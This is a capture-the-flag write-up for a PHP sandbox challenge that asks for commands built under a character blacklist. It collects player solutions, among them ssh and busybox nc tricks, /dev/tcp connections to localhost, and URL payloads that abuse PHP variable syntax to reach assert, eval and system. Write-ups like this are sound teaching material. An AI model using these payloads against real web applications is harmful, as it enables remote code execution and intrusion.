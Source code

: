 ![Hall Of Fame][hof.png]
# URL
[l4w.pw/🤔/](http://l4w.pw/🤔/)

# Type
PHP CTF-style challenge.

How to construct command following the rules.

Trick to run weird command or abusing PHP syntax.

# Solution
This challenge came by when I was solving a PHP sandbox challenge which has limited characters/blacklist functions/...

I left backstick, to see amazing tricks from you guys.

All of them can be found at: [writeup](writeup)

There are serveral solutions:
### Run multiple commands which does following steps:
    * Create a temporary file containing chunks (by using: printf/echo/...)
    * Run the file, to connect localhost:8888 (using python or bash with /dev/tcp/...)
    * See nyan/orange/kaibro/pablo sol.
### Abusing ssh / busybox
It ... surprised me 
    * ```die(`ssh -v 0 -p 888\%0a8 2>&1`);```
    * ```die(`bus\yb\ox nc 0:888\8`);```
    * Using `ssh` and blackslash (See `huyphan` sol)
### PHP syntax abusing
By using bitwise `&`, we can make a string following the rule regexp `\w{4}`, then use `{` as a name of variable `${}`, also access array index `$array{index}`
    * `http://l4w.pw/%F0%9F%A4%94/?%E2%81%A3=$a=${_GE%d4%26_GE%7f};$a{0}($a{1});&0=assert&1=eval($_GET[2]);&2=echo%20123;`
    * Also see kad96/fa_boy/tsu solutions.
    * `http://l4w.pw/🤔/index.php?0=system&1=busybox nc 127.0.0.1 8888&%E2%81%A3=$b=_GE;$b{3}=T;$$b{0}($$b{1});` (From tiengiang, looks like he's the first one who found out `busybox` can be used...)
